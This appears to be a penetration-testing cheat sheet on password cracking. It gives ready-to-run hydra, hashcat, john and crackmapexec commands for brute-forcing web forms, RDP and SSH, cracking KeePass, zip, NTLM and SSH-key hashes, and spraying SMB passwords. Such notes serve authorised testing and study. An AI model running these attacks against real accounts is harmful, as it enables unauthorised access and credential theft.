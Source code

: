 # 05 - Password Cracking

Index
- [First Rule!](#First-Rule)
- [Form Login](#Form-Login)
- [RDP](#RDP)
- [KeePass DB](#KeePass-DB)
- [Zip](#Zip)
- [SMB password spraying](#SMB-password-spraying)
- [NTML hash](#NTLM-hash)

## First Rules
- Always try the default credentials!
- Always try PASSWORD == USERNAME!
- Search users and passwords in all available files
- Identify the hash (hashid)


## Form Login
``` bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt 192.168.1.1 -s 443 http-post-form "/login.php:LOGIN=^LOGIN^&password=^PASS^:Login failed"
         # user file # password file                  # target           # method                   # user field                  # error msg
```

## RDP
``` bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt rdp://192.168.1.1
```

## SSH
``` bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt -s 22 ssh://192.168.1.1
```

## KeePass DB
``` bash
keepass2john Database.kdbx > keepass.hash                                                               ## extract the hash (*)
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule  ## cracking
```
(*) The hash file was generated with the string "Database:", delete it.

## Zip
``` bash
zip2john file.zip > file.hash                               ## hash extraction
john file.hash --wordlist=/usr/share/wordlists/rockyou.txt  ## cracking
```

## SMB password spraying
``` bash
crackmapexec smb 192.168.1.1 -d domain.local -u user.txt -p passwd.txt
```

## NTML hash
``` bash
hashcat -m 1000 file.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

## SSH passphrase
Scenario: id_rsa or id_ecdsa file available but ask for a passphrase
``` bash
ssh2john $sshkeyfile > file.hash
john file.hash --wordlist=/usr/share/wordlists/rockyou.txt
```